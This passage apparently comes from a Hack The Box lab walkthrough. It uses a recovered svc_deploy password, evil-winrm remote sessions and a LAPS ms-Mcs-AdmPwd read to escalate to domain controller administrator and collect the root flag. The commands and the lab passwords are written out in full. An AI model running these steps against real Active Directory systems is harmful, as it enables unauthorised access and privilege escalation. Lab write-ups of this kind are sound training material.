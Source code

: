 Looks like `E3R$Q62^12p7PLlC%KWaxuaV` is the password for `svc_deploy`.

Let's look for some more info about that `svc_deploy` user.

```powershell
get-aduser -identity svc_deploy -properties *
```

Here, we can see that this user is a member of the `LAPS_Readers` group. This sounds like our route to local admin. It's also part of the `Remote Management Users` group, so we can probably leverage that as our entry point.

## Root
First, disconnect from your Evil-WinRM session using `CTRL+C` and then pressing `y`.

Now we'll reconnect as our new user using this command

```bash
evil-winrm -u svc_deploy -p "E3R\$Q62^12p7PLlC%KWaxuaV" --ssl -i 10.10.11.152
```

**_Note:_** We had to add an extra `\` in front of the `$` in the password to escape the special character.

This gets us a new PowerShell session on the box as `svc_deploy`. Now, to read the local admin password from LAPS, we can run this command

```powershell
Get-ADComputer -identity DC01 -Properties ms-Mcs-AdmPwd
```

The password is in the `msMcs-AdmPwd` field. In my case it was `l8BD+@167DS6RrBWP0p&#lm5`.  I'm not sure if this actually rotates like it's supposed to or not, given the nature of Hack The Box boxes.

We'll use this password to log in once again. The default username for LAPS local admins is just `administrator`, so we'll try that first. Exit the current `evil-winrm` session and run this command

```bash
evil-winrm -u "administrator" -p "l8BD+@167DS6RrBWP0p&#lm5" --ssl -i 10.10.11.152
```

And we're in as the local admin!

For some reason, `root.txt` is actually in a different spot than usual on this box. This command should get you the flag

```powershell
cat C:\Users\TRX\Desktop\root.txt
```